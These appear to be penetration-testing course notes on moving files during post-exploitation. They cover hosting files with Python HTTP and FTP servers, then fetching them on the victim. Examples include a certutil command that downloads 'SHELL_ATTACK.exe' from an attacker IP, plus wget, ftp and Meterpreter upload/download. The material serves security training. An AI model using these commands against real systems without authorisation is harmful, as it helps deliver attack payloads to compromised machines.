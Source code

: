 

### **File Transfers - Summary and Methods**

1. **Typical Setup for Hosting Files (Attacker Perspective)**:
    - Use Python to host files via a simple HTTP server:
        
        ```Shell
        python -m http.server 80
        ```
        
    - Retrieve files on the victim machine (Windows):
        - Use `CertUtil` to download files.
            
            ```Bash
            certutil.exe -urlcache -f http://10.10.14.117:8080/SHELL_ATTACK.exe SHELL_ATTACK.exe
            ```
            
        - Navigate directly to the hosted file's address using a browser.
2. **Alternatives if** `**CertUtil**` **or Other Methods are Blocked**:
    - **FTP**:
        - Host an FTP server on the attacker's machine:
            
            ```Shell
            python -m pyftpdlib -p 21
            ```
            
        - Access the attacker-hosted FTP server from the Windows machine:
            
            ```Shell
            ftp <attacker-IP>
            ```
            
3. **File Retrieval Methods**:
    - **Linux**:
        - Use `wget` to fetch files:
            
            ```Shell
            wget <URL>
            ```
            
    - **Metasploit**:
        - Use the upload/download feature with a Meterpreter shell for easy file transfer.
4. **Key Notes**:
    - In post-exploitation scenarios:
        - **Common Approach**: Host a file on an HTTP/FTP server and retrieve using available tools.
        - Linux: Simplified via `wget`.
        - For Meterpreter, use native `upload/download` commands for efficiency.
5. **Review & Practice**:
    - These methods are critical for post-exploitation workflows.
    - Refer back to the mid-course capstone to reinforce and practice file transfer strategies.

---
